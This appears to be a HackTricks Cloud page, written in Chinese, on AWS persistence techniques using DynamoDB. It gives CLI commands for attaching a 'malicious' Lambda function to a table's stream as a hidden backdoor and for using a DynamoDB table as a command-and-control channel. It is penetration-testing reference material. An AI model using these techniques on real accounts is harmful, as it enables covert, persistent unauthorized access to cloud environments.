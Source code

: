 # AWS - DynamoDB 持久性

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

### DynamoDB

获取更多信息，请访问：

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### 使用Lambda后门的DynamoDB触发器

利用DynamoDB触发器，攻击者可以通过将恶意Lambda函数与表关联来创建一个**隐蔽的后门**。当添加、修改或删除项时，可以触发Lambda函数，允许攻击者在AWS账户内执行任意代码。

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

为了维持持久性，攻击者可以在DynamoDB表中创建或修改项目，这将触发恶意的Lambda函数。这允许攻击者在AWS账户内执行代码，而无需直接与Lambda函数交互。

### DynamoDB作为C2通道

攻击者可以使用DynamoDB表作为**指挥和控制（C2）通道**，通过创建包含命令的项目，并使用被攻陷的实例或Lambda函数来获取并执行这些命令。
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
被攻破的实例或Lambda函数可以定期检查C2表以获取新命令，执行它们，并可选地将结果报告回表中。这允许攻击者保持对被攻破资源的持久性和控制。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
